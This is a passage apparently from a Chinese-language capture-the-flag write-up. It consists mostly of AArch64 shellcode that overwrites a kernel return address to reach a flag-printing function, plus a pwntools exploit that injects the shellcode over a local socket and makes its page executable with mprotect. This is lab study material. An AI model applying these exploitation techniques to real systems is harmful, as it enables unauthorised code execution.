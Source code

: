 AArch64 用來寫入 `print_el1_flag` 位址與 return address 的 shellcode：

```asm
.section .text
.global _start
_start: 
    LDR X10, =0xffffffffc0019c00
    MOV X9, #0
    .loop:
        MOV X0, #0
        ADD X1, X10, X9
        MOV W2, #1
        MOV X8, #0x3f
        SVC 0 // read(0, buffer=target, n=1)
        ADD X9, X9, #1
        MOV X11, #0x10 // do 0x10 time
        CMP X9, X11
    B.MI .loop
	# overwrite return gadget
	# and return to print_el1_flag
    LDR X10, =0xffffffffc0019bb8+1
    NOP
    MOV X0, #0
    ADD X1, X10, #0
    MOV W2, #1
    MOV X8, #0x3f
    SVC 0

# compile: aarch64-linux-gnu-as ./sc.s
# check: aarch64-linux-gnu-objdump -d ./a.out
# extract .text: aarch64-linux-gnu-objcopy -I elf64-littleaarch64 -j .text -O binary ./a.out ./output
```

最終 EL1 的 exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 6666)
print_flag = 0x400104
print_el1_flag = 0xFFFFFFFFC0008408
mprotect = 0x401B68
gets = 0x4019B0
addr = 0x00007ffeffffd000

EXEC = 4
WRITE = 2
READ = 1
input(">")

# gets(addr)
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'0'.ljust(0x100, b'\x00') + p64(gets))

sc = open('./output', 'rb').read()
r.sendline(b'\x00'*0x30 + sc)

# mprotect(addr, 0x1000, R-X)
r.sendlineafter('cmd> ', b'1'.ljust(0x100, b'\x00') + p64(print_flag) + p64(mprotect))
r.sendlineafter('index: ', str(0x1000))
r.sendlineafter('key: ', '1'*(READ | EXEC))

```